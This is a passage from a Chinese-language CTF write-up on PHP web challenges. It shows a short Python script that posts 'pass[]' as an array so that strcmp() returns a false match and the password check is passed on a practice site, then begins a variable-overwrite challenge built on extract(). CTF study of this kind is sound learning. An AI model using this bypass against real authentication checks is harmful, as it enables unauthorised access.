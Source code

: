 以上代码用于测试此函数的作用结果显而易见，len(string1)==len(string2)返回0，否则返回string1比string2长多少或者短多少。
此题要求**strcmp( p a s s , pass, pass,pass1)**的值为0，你不可能知道pass1的长度，所以要想办法绕过这个条件满足条件，上网搜索了一下，发现只要post一个数组过去就可以了，写一个py脚本传参到指定的url

```
import requests
url="http://chinalover.sinaapp.com/web21/"
s=requests.Session()
post={"pass[]":1}
print(s.post(url,data=post).text) 
```

得到flag如下：
![](img/be8920ba38a9f9d8dd7c505e5e57b3bc.png)

### 变量覆盖

今天又学到了一点新知识，关于php里的变量覆盖问题
题目如下：
![](img/c89ae29eb393b17a0783056df0dca861.png)
在底部给出了sourcecode，查看一波源码
![](img/b9742cd82dd705d70e3cb24fc5a8928f.png)
发现存在extract()函数，应该就是这个函数的问题，extract函数的用处如下
![](img/62ced1762384b41f1d7b672763dad18d.png)

